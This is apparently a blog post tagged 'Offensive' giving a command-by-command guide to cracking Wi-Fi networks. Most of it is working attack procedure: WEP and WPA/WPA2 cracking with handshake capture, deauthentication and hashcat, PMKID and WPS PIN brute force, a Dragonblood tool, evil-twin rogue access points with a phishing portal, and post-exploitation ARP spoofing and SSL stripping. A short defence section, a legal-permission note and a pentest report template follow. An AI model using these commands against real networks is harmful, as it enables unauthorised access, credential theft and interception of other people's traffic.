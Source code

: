```yaml
---
title: 'WiFi Cracking'
description: 'How to  broke into wifi network and some usefull tips'
category: Offensive
pubDate: 2025-06-16
heroImage: '../../../assets/wifi.png'
---
```


## **1. Understanding Wi-Fi Security Protocols**
### **Protocol Evolution & Vulnerabilities**
| Protocol | Year | Encryption | Vulnerabilities          | Crackability     |
| -------- | ---- | ---------- | ------------------------ | ---------------- |
| WEP      | 1997 | RC4        | IV Collisions, Weak Keys | 100% (Minutes)   |
| WPA      | 2003 | TKIP/RC4   | WPA-TKIP Attacks         | 95% (Hours)      |
| WPA2     | 2004 | CCMP/AES   | KRACK, PMKID             | 70% (Dictionary) |
| WPA3     | 2018 | GCMP/SAE   | Dragonblood              | 30% (Advanced)   |

**Key Insight:** Always prioritize WPA3/WPA2-Enterprise over personal PSK when possible.

## **2. Essential Tools Setup**
### **Hardware Requirements**
- **Recommended Adapters**:
	- Alfa AWUS036ACH (802.11ac)
- **Antennas**: 
	- Alfa ARS-N19 (Indoor/All-Around)
	- Alfa APA-M25 (Outdoor/Targeted)
- USB 3.0 Extension + Mount

### **Arch Preparation**
```bash
sudo pacman -Sy aircrack-ng hashcat hcxdumptool bully reaver
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
```

## 3. Identify Target
### Using `airodump-ng`
```bash
sudo airodump-ng wlan0mon
```
- Look under the **"Prot"** or **"ENC"** column.
- It shows things like:
    - `WPA2` – encryption
    - `CCMP` – cipher
    - But for protocol version: check **channel width and speed** too.
- Combine with the **"HT"** / **"VHT"** / **"HE"** flags:
    - `HT` → **802.11n**
    - `VHT` → **802.11ac**
    - `HE` → **802.11ax (Wi-Fi 6)**

### Using `iw dev` and `iwlist`
```bash
iw dev wlan0 scan | grep -A 20 'SSID: TargetWiFi'
```
Look for:
- `HT capabilities:` → 802.11n
- `VHT capabilities:` → 802.11ac
- `HE capabilities:` → 802.11ax

## **4. Attack Methodology**

### **A. WEP Cracking (Obsolete but Found in Legacy Systems)**
```bash
# Step 1: Put interface in monitor mode
sudo airmon-ng start wlan0

# Step 2: Capture IVs (Packet Injection Recommended)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Step 3: Crack with aircrack
aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
```
**Time Estimate**: 2-15 minutes with active traffic

### **B. WPA/WPA2 PSK Attacks**

#### **1. Handshake Capture**
```bash
# Capture beacon frames
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Deauth to force handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c ClientMAC wlan0mon

# Verify handshake
aircrack-ng -J verify handshake-01.cap
```

#### **2. Dictionary Attack**
```bash
# Using aircrack
aircrack-ng -w rockyou.txt handshake-01.cap

# Using hashcat (faster)
hcxpcapngtool -o hash.hc22000 handshake-01.cap
hashcat -m 22000 hash.hc22000 rockyou.txt
```

#### **3. PMKID Attack (No Clients Needed)**
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash capture.pcapng
hashcat -m 16800 pmkid.hash -a 3 ?d?d?d?d?d?d?d?d
```

### **C. WPA3 Attack Surface**
**Dragonblood Vulnerabilities**:
- SAE side-channel attacks
- Downgrade to WPA2

```bash
sudo dragonforce -i wlan0mon -b 00:11:22:33:44:55 -w wordlist.txt
```

## **5. Advanced Techniques**

### **A. Evil Twin Attacks**
```bash
# Create rogue AP
sudo airbase-ng -a 00:11:22:33:44:55 --essid "FreeWiFi" -c 6 wlan0mon

# Phishing portal integration
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### **B. WPS PIN Attacks**
```bash
# Using reaver
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1

# Using bully (faster)
bully -b 00:11:22:33:44:55 wlan0mon -p 12345670
```

## **6. Defense Strategies**

### **Enterprise Best Practices**
```bash
# RADIUS Configuration Example (FreeRADIUS)
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
}
```

### **Personal Network Hardening**
```bash
# Hostapd Config Snippet
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=ComplexP@ssw0rd!
```

## **7. Legal Considerations**

**Always obtain written permission** before testing any network. Recommended legal clause:
```
This assessment is authorized by {Organization} from {StartDate} to {EndDate}.
Testing limited to SSIDs: {List_of_SSIDs}.
All activities logged for audit purposes.
```

## **8. Post-Exploitation**

### **Network Mapping**
```bash
nmap -Pn -sV -O 192.168.1.0/24
```

### **MITM Techniques**
```bash
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
sudo sslstrip -l 8080
```

## **9. Reporting Template**

**Findings Summary**:
```
1. WPA2-PSK Vulnerability (Critical)
   - Captured handshake in 2 minutes
   - Cracked password in 4 hours (8-char lowercase)

2. WPS Enabled (High)
   - PIN brute-forced in 6 hours

3. Rogue AP Detection (Medium)
   - No enterprise authentication observed
```

**Remediation Plan**:
1. Migrate to WPA3-Enterprise with 802.1X
2. Disable WPS immediately
3. Implement wireless intrusion detection
